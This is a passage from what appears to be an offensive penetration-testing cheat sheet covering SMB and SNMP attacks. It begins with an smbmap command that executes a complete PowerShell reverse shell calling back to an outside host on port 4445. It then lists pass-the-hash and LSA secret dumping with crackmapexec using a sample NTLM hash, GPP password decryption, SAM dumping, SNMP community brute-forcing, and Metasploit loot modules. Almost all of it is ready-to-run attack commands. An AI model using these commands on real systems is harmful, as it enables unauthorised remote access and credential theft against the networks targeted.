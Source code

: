 ```bash
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

# CrackMapExec
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local --lsa

# Impacket
python3 samdump.py SMB 172.21.0.0

# Check for systems with SMB Signing not enabled
python3 RunFinger.py -i 172.21.0.0/24
```

## Port 161/162 UDP - SNMP

```bash
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.11.1.111
nmap 10.11.1.111 -Pn -sU -p 161 --script=snmp-brute,snmp-hh3c-logins,snmp-info,snmp-interfaces,snmp-ios-config,snmp-netstat,snmp-processes,snmp-sysdescr,snmp-win32-services,snmp-win32-shares,snmp-win32-software,snmp-win32-users
snmp-check 10.11.1.111 -c public|private|community
snmpwalk -c public -v1 ipaddress 1
snmpwalk -c private -v1 ipaddress 1
snmpwalk -c manager -v1 ipaddress 1
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 172.21.0.X

# Impacket
python3 samdump.py SNMP 172.21.0.0 

# MSF aux modules
 auxiliary/scanner/misc/oki_scanner                                    
 auxiliary/scanner/snmp/aix_version                                   
 auxiliary/scanner/snmp/arris_dg950                                   
 auxiliary/scanner/snmp/brocade_enumhash                               
 auxiliary/scanner/snmp/cisco_config_tftp                               
 auxiliary/scanner/snmp/cisco_upload_file                              
 auxiliary/scanner/snmp/cnpilot_r_snmp_loot                             
 auxiliary/scanner/snmp/epmp1000_snmp_loot                             
 auxiliary/scanner/snmp/netopia_enum                                    
 auxiliary/scanner/snmp/sbg6580_enum                                 
 auxiliary/scanner/snmp/snmp_enum                                 
 auxiliary/scanner/snmp/snmp_enum_hp_laserjet                           
 auxiliary/scanner/snmp/snmp_enumshares                                
 auxiliary/scanner/snmp/snmp_enumusers                                 
 auxiliary/scanner/snmp/snmp_login
```
